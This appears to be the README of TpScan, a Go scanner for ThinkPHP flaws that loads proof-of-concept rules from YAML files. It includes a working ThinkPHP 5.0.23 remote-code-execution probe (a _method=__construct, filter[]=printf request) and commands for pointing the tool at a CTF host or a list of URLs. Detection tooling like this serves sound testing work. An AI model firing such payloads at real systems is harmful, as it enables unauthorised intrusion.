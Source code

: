 ![TpScan](https://socialify.git.ci/captain686/TpScan/image?font=Raleway&forks=1&issues=1&language=1&name=1&owner=1&pattern=Circuit%20Board&stargazers=1&theme=Light)

## ☃️What

使用`golang`编写的ThinkPHP扫描器，`POC`采用`ymal`文件加载

## 🤪How

- 单个`URL`测试

```bash
./TpScan.exe -u http://node4.buuoj.cn:26433/
```

- 批量`URL`测试

```bash
./TpScan.exe -f test.txt
```

## 🤑About

- `Ymal`文件格式

  ```yaml
  name: 5.0.23-Rce
  rules:
    r1:
      request:
        method: GET
        headers:
          Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        path: _method=__construct&filter[]=printf&method=GET&server[REQUEST_METHOD]=randomStr
      expression:
  #      result: and
  #      response_status: 404
        inResponse: |
          randomStr
  
    r2:
      request:
  #支持POST和GET    
        method: POST
        headers:
          Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        path: _method=__construct&filter[]=printf&method=GET&server[REQUEST_METHOD]=randomStr
        FollowRedirects: true
  #允许302跳转，默认为true
      expression:
  # r2验证结果为 response_status == 404 && inResponse(randomStr)
        result: and
  #      result: or
        response_status: 404
        inResponse: |
          randomStr
  #randomStr为占位符，会被自动替换为10位随机字符
  
  expression:
    r1 || r2
  #  r1 && r2
  #支持逻辑运算
  
  
  # 信息部分
  detail:
    author: Captain686
    links:
      - https://github.com/captain686
  ```
  
  
  
  在`Xray`的`poc`格式基础上进行部分修改
  
  `Poc`文件存放在`exploit`目录下

## 😎ToDo

- [ ] 后续更新`Poc`文件

